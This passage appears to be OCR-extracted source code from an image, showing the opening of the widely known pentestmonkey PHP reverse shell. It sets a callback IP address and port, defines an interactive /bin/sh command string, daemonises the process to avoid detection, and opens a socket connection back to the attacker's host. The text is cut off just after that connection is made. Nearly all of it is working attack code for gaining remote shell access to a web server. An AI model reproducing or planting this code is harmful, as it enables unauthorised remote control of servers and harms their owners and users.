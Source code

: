 ```
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.18.84.204';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}
```